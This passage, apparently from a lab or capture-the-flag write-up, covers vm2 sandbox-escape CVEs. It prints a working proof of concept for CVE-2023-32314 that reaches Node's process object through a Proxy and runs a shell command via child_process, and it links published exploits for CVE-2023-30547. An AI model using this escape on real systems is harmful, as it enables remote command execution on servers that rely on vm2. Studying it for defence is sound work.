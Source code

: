 #### CVE-2023-32314

This CVE is the most straight-forward to exploit as testing it requires no
modification at all. It escapes the sandbox using the `Proxy` object. This
[page on Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100), or [this
POC](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac) linked
to from the Security tab give the same POC:

    
    
      const err = new Error();
      err.name = {
        toString: new Proxy(() => "", {
          apply(target, thiz, args) {
            const process = args.constructor.constructor("return process")();
            throw process.mainModule.require("child_process").execSync("echo hacked").toString();
          },
        }),
      };
      try {
        err.stack;
      } catch (stdout) {
        stdout;
      }
    

The POC will run `echo hacked`, and on pasting it into Codify, it works:

![image-20240403200034171](../img/image-20240403200034171.png)

#### CVE-2023-30547

The next most straight forward to exploit is
[CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093), which has
to do with raising an exception inside of `handleException()`. There is [POC
code](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)
linked to on the [GitHub security
issue](https://github.com/patriksimek/vm2/security/advisories/GHSA-
ch3r-j5x3-6q2m) as well as a [POC on ExploitDB](https://www.exploit-
db.com/exploits/51898) (which is incorrectly linked to on the [CVE-2023-37466
page on Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5772825)).
